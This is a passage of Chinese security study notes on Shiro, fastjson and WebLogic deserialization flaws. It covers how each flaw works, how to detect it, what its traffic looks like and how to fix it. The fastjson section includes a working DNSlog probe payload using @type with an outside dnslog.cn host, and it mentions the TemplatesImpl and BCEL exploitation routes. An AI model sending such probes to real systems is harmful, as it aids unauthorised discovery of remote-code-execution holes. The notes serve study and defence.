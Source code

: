 ##### 修复:

- 升级shiro版本到1.4.2以上
- - -

4.fastjson
----------

### 简述

正常请求是get请求并且没有请求体，可以通过构造错误的POST请求，即可查看在返回包中是否有fastjson这个字符串来判断

fastjson漏洞利用原理  
在请求包里面中发送恶意的json格式payload，漏洞在处理json对象的时候，没有对@type字段进行过滤，从而导致攻击者可以传入恶意的TemplatesImpl类，而这个类有一个字段就是\_bytecodes，有部分函数会根据这个\_bytecodes生成java实例，这就达到fastjson通过字段传入一个类，再通过这个类被生成时执行构造函数

### 识别

1、根据返回包判断：  
任意抓个包，提交方式改为POST，花括号不闭合。返回包在就会出现fastjson字样。当然这个可以屏蔽，如果屏蔽使用其它办法。  
2、利用dnslog盲打：  
构造以下payload（content-type字段为application/json），利用dnslog平台接收：{"zeo":{"@type":"java.net.Inet4Address","val":"ntel8h.dnslog.cn"}}（不同版本，payload不同。推荐这种方式）

### 流量特征

- @type
- 加一个恶意类和命令

### 不出网

用BCEL库

### 修复

升级版本到1.2.51以上

- - - - - -

5.weblogic反序列化
--------------

### T3协议

T3协议是用于Weblogic服务器和其他Java Application之间传输信息的协议，是实现RMI远程过程调用的专有协议，其允许客户端进行JNDI调用。

### 判断是否攻击成功

1. 攻击成功会有明显的返回weblogic字样
2. 会有带加密格式的序列化字符串
3. 是否成功攻击要看日志，是否有调用恶意Java类，网络套接字，上传war包

回答1:

### 反序列化漏洞
